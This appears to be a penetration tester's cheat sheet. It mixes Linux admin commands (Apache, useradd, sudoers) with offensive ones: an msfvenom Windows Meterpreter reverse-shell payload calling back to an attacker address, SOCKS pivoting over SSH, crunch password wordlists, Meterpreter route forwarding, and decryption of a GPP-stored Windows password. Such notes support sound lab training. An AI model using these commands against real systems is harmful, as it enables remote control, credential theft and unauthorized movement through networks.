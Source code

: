```bash
# Start server:
sudo systemctl start apache2

#File location:
/var/www/html/

#Inspect access log:
tail -f /var/log/apache2/access.log
```
### Add user linux:
```bash
#Create user:
sudo useradd <user>

#Set password:
sudo passwd <user>

#View sudo rights:
sudo visudo

#Edit sudoers file:
nano /etc/sudoers
..or..
sudo visudo
```
### Background service:
```bash
> /dev/null 2>&1 &
```
### SSH through SOCKS:
```bash
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```
### Custom wordlist based on known password:
```bash
#Example:
crunch 6 6 -t Lab%%% > out.list

#Explanation:
crunch <mincharlen> <maxcharlen> -t (specify pattern) Lab%%% (hardcoded "Lab" plus three numeric digits) > out.list
```
### Windows Meterpreter payload:
```bash
sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.199 LPORT=443 -f exe -o met.exe
```
### Meterpreter Port Forwarding:
```
route add <ip-or-range> <msfsessionid>
```
### Decrypt GPP-stored Windows passwords:
```bash
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```
### Access Http SPN from Powershell:
```powershell
#Regular access:
iwr -UseDefaultCredentials http://web04
```